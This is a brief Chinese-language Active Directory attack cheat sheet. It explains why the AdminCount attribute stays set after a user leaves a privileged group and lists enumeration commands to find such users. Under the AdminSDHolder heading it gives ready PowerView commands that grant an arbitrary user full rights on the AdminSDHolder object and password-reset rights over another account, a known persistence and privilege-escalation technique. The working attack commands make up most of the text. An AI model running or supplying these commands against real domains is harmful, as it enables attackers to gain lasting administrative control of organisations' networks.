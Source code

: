 	如果您不希望每小时都覆盖修改过的 ACL，则应更改对象上的 ACL 模板CN=AdminSDHolder,CN=System或将所需对象的"AdminCount属性设置为0
	当用户被分配到任何特权组时， AdminCount 属性自动设置为1，但当用户从这些组中删除时，它永远不会自动取消设置。
	使用 查找用户AdminCount=1
	>crackmapexec ldap 10.10.10.10 -u username -p password --admin-count
	或
	>python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.10.10.10
	>jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
	或
	>Get-ADUser -LDAPFilter "(objectcategory=person)(samaccountname=*)(admincount=1)"
	>Get-ADGroup -LDAPFilter "(objectcategory=group) (admincount=1)"
	或
	>([adsisearcher]"(AdminCount=1)").findall()
### AdminSDHolder
  	将用户添加到 AdminSDHolder 组
	>Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -PrincipalIdentity username -Rights All -Verbose
	赋予账号titi为toto重置密码的权利
	>Add-ObjectACL -TargetSamAccountName toto -PrincipalSamAccountName titi -Rights ResetPassword
	赋予所有权利
	>Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName toto -Verbose -Rights All